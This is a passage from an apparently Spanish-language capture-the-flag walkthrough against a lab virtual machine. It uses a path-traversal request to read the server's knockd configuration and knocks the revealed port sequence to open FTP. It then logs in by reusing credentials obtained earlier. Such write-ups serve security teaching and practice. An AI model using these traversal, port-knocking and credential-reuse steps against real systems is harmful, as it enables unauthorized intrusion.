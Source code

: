  De primeras no tenemos credenciales para conectarnos a `mysql` pero hay que recordar que habia un puerto filtrado que era el del `ftp`

 ```bash
❯ curl -s "http://192.168.1.84/home.php?showcase=../../../../etc/knockd.conf" -b PHPSESSID=lajkn6k3qshls8g5qepomldgo7 | tail -n 8
[options]
UseSysLog
Interface=ens33
[FTP]
sequence = 1234:tcp,5678:tcp,9012:tcp
seq_timeout = 15
tcpflags = syn
command = iptables -I INPUT 1 -s %IP% -p tcp -m tcp --dport 21 -j ACCEPT
```

Podemos usar la herramienta `knock` para golpear los puertos y abrirlos

```bash
 ❯ knock 192.168.1.84 -v 1234 5678 9012
hitting tcp 192.168.1.84:1234
hitting tcp 192.168.1.84:5678
hitting tcp 192.168.1.84:9012
```

Ahora si revisamos si el puerto por `ftp` esta abierto vemos que si

```bash
❯ nmap 192.168.1.84 -p 21
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-25 16:45 CST
Nmap scan report for 192.168.1.84
Host is up (0.00053s latency).

PORT   STATE SERVICE
21/tcp open  ftp
MAC Address: 00:0C:29:A0:71:86 (VMware)
```

Vamos a conectarnos reutilizando las credenciales que teniamos 

```bash
❯ ftp 192.168.1.84
Connected to 192.168.1.84.
220 (vsFTPd 3.0.3)
Name (192.168.1.84:root): megumin
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 33       33            107 Jan 16  2020 hello.php
-rw-r--r--    1 33       33             93 Jan 16  2020 notes
drwxr-xrwx    2 1001     1001         4096 Jan 14  2020 production
226 Directory send OK.
ftp> 
```
